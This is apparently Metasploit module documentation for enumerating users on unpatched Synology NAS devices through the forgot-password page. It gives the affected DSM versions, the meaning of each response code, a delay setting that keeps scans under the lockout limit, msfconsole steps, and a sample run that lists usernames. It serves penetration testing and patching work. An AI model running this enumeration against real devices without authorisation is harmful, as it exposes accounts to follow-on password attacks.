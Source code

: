 ## Vulnerable Application

This module attempts to enumerate users on the Synology NAS by sending GET requests
for the forgot password URL. The Synology NAS will respond differently if a user is
present or not. These count as login attempts, and the default is 10 logins in 5min to
get a permanent block.  Set delay accordingly to avoid this, as default is permanent.

Vulnerable DSMs are:
 * DSM 6.1 < 6.1.3-15152
 * DSM 6.0 < 6.0.3-8754-4
 * DSM 5.2 < 5.2-5967-04

Enumeration is case insensitive.

To turn off Auto Block: Control Panel (Advanced Mode) > Security > Auto Block.

To unblock: Control Panel (Advanced Mode) > Security > Auto Block > Allow/Block List > Block List.

### Responses

The server responds with a JSON object and a 'msg' key.  The values translate as:

 * msg 1 - means user can login to GUI
 * msg 2 - means user exists but no GUI login
 * msg 3 - means feature disabled, or patched
 * msg 4 - means no user
 * msg 5 - means auto block is enabled and youre blocked. Default is 10 login attempts, and these

## Verification Steps

  1. Install the application
  2. Start msfconsole
  3. Do: ```use auxiliary/scanner/http/synology_forget_passwd_user_enum```
  4. Do: ```set rhosts [ip]```
  5. Do: ```set delay [seconds]```
  6. You should hopefully find some usernames

## Options

### Delay

The delay in seconds between enumeration attempts.  Default lockout policy is 10 attempts in 5min,
so this should avoid the lockout.  Default is `31`.

### USER_LIST

The username list to use, defaults to `data/wordlists/unix_users.txt`

## Scenarios

### DS412+ with DSM 5.2-5644 with auto block turned off

  ```
  [*] Processing syn_login.rb for ERB directives.
  resource (syn_login.rb)> use auxiliary/scanner/http/synology_forget_passwd_user_enum
  resource (syn_login.rb)> set rhosts 2.2.2.2
  rhosts => 2.2.2.2
  resource (syn_login.rb)> set delay 0
  delay => 0
  resource (syn_login.rb)> run
  [+] admin - admin group
  [+] avahi - no mail or no priviege
  [+] ftp - no mail or no priviege
  [+] guest - no mail or no priviege
  [+] lp - no mail or no priviege
  [+] mysql - no mail or no priviege
  [+] nobody - no mail or no priviege
  [+] ntp - no mail or no priviege
  [+] postfix - no mail or no priviege
  [+] postgres - no mail or no priviege
  [+] root - no mail or no priviege
  [+] ROOT - no mail or no priviege
  [+] http://2.2.2.2:5000/ - Users found: ROOT, admin, avahi, ftp, guest, lp, mysql, nobody, ntp, postfix, postgres, root
  [*] Scanned 1 of 1 hosts (100% complete)
  [*] Auxiliary module execution completed
  ```
